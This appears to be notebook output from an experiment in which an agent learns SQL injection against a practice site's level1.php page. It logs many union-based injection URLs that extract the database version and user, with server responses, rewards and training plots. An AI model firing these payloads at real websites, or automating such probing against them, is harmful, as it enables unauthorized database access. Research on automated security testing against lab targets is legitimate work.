https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 62%|██████▏   | 62/100 [32:09<06:02,  9.54s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 63%|██████▎   | 63/100 [32:10<04:17,  6.95s/it]

Correct exploratory version of the escape. I return 2
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax erro

 64%|██████▍   | 64/100 [32:31<06:49, 11.39s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 65%|██████▌   | 65/100 [32:32<04:48,  8.23s/it]

Correct exploratory version of the escape. I return 2
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'unio

 66%|██████▌   | 66/100 [34:29<23:10, 40.90s/it]

Correct exploratory user of the challenge. I return 1
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 67%|██████▋   | 67/100 [34:30<15:53, 28.90s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 68%|██████▊   | 68/100 [34:31<10:56, 20.52s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 69%|██████▉   | 69/100 [34:32<07:33, 14.64s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 70%|███████   | 70/100 [34:33<05:16, 10.54s/it]

Correct exploratory version of the escape. I return 2
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/lev

 71%|███████   | 71/100 [35:21<10:25, 21.58s/it]

Correct exploratory user of the challenge. I return 1
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 and 1=2 union select 1,version(),3

 72%|███████▏  | 72/100 [35:35<09:01, 19.35s/it]

Correct exploratory user of the challenge. I return 1
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 73%|███████▎  | 73/100 [35:36<06:12, 13.81s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 74%|███████▍  | 74/100 [35:37<04:18,  9.94s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 

 75%|███████▌  | 75/100 [36:27<09:14, 22.17s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 76%|███████▌  | 76/100 [36:28<06:18, 15.79s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 77%|███████▋  | 77/100 [36:29<04:20, 11.35s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/leve

 78%|███████▊  | 78/100 [36:41<04:15, 11.61s/it]

Correct exploratory version of the escape. I return 2
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'un

 79%|███████▉  | 79/100 [36:56<04:21, 12.44s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 80%|████████  | 80/100 [36:57<02:59,  9.00s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 81%|████████  | 81/100 [36:58<02:04,  6.56s/it]

Correct exploratory version of the escape. I return 2
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. S

 82%|████████▏ | 82/100 [37:20<03:23, 11.31s/it]

Correct exploratory user of the challenge. I return 1
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 83%|████████▎ | 83/100 [37:21<02:19,  8.19s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 84%|████████▍ | 84/100 [37:22<01:37,  6.08s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 and 1=2 union select 1,2--
https://zix

 85%|████████▌ | 85/100 [38:23<05:37, 22.51s/it]

Correct exploratory user of the challenge. I return 1
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 86%|████████▌ | 86/100 [38:24<03:44, 16.05s/it]

Correct exploratory version of the escape. I return 2
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union sele

 87%|████████▋ | 87/100 [43:07<20:50, 96.19s/it]

Correct exploratory user of the challenge. I return 1
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 88%|████████▊ | 88/100 [43:08<13:31, 67.60s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 89%|████████▉ | 89/100 [43:09<08:43, 47.58s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 90%|█████████ | 90/100 [43:10<05:35, 33.59s/it]

Correct exploratory version of the escape. I return 2
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervis

 91%|█████████ | 91/100 [44:56<08:19, 55.52s/it]

Correct exploratory user of the challenge. I return 1
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 92%|█████████▏| 92/100 [44:58<05:13, 39.20s/it]

Correct exploratory version of the escape. I return 2
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,

 93%|█████████▎| 93/100 [46:04<05:30, 47.25s/it]

Correct exploratory user of the challenge. I return 1
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 94%|█████████▍| 94/100 [46:05<03:20, 33.42s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 95%|█████████▌| 95/100 [46:07<02:00, 24.01s/it]

Correct exploratory version of the escape. I return 2
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select

 96%|█████████▌| 96/100 [47:02<02:13, 33.28s/it]

Correct exploratory version of the escape. I return 2
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


 97%|█████████▋| 97/100 [47:03<01:11, 23.83s/it]

Correct exploratory user of the challenge. I return 1
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 98%|█████████▊| 98/100 [47:04<00:33, 16.95s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


 99%|█████████▉| 99/100 [47:05<00:12, 12.15s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


100%|██████████| 100/100 [47:06<00:00, 28.27s/it]

Correct exploratory version of the escape. I return 2




In [16]:
#plt.plot(np.mean(np.array(Tsteps).reshape(-1,10),axis=1))
plt.plot(Tsteps)
plt.xlabel('episodes')
plt.ylabel('number of steps')
plt.axhline(np.average(Tsteps),c='red',ls='--',label='mean')
plt.legend()



In [17]:
#plt.plot(np.mean(np.array(Trewards).reshape(-1,10),axis=1))
plt.plot(Trewards)
plt.xlabel('rewards')
plt.ylabel('number of steps')
plt.axhline(np.average(Trewards),c='red',ls='--',label='mean')
plt.legend()